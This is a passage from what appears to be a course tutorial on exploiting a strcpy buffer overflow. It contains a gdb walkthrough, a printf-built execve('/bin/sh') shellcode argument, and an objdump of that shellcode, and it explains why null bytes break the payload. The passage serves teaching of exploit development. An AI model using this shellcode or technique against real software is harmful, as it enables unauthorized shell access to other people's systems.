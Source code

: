 In the above gdb execution, first we set a break point right before the
call so that we can inspect the address that will be called,
`$esp+0x10`. Unfortunately, if we look closely, we see that the jmp is
there, which is our first command, but then we are in trouble. There are
a bunch of nonsense commands.

What happened? Lets look more closely at our command line argument:

``` example
$(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
```

You see that 5 bytes in, there is a NULL (\\x00) which means the
`strcpy()` command will stop copying there.

\*We need to remove NULL bytes!\*

## Removing NULL bytes

To remove NULL bytes, we need to get creative. Let's look at the objdump
of our previous version of the shell code to get a sense of where we are
at.

``` example
user@si485H-base:demo$ objdump -d -M intel execve_calljmp

execve_calljmp:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   eb 20                   jmp    8048082 <callback>

08048062 <dowork>:
 8048062:   5e                      pop    esi
 8048063:   6a 00                   push   0x0
 8048065:   56                      push   esi
 8048066:   ba 00 00 00 00          mov    edx,0x0
 804806b:   89 e1                   mov    ecx,esp
 804806d:   89 f3                   mov    ebx,esi
 804806f:   b8 0b 00 00 00          mov    eax,0xb
 8048074:   cd 80                   int    0x80
 8048076:   bb 00 00 00 00          mov    ebx,0x0
 804807b:   b8 01 00 00 00          mov    eax,0x1
 8048080:   cd 80                   int    0x80

08048082 <callback>:
 8048082:   e8 db ff ff ff          call   8048062 <dowork>
 8048087:   2f                      das    
 8048088:   62 69 6e                bound  ebp,QWORD PTR [ecx+0x6e]
 804808b:   2f                      das    
 804808c:   73 68                   jae    80480f6 <callback+0x74>
```
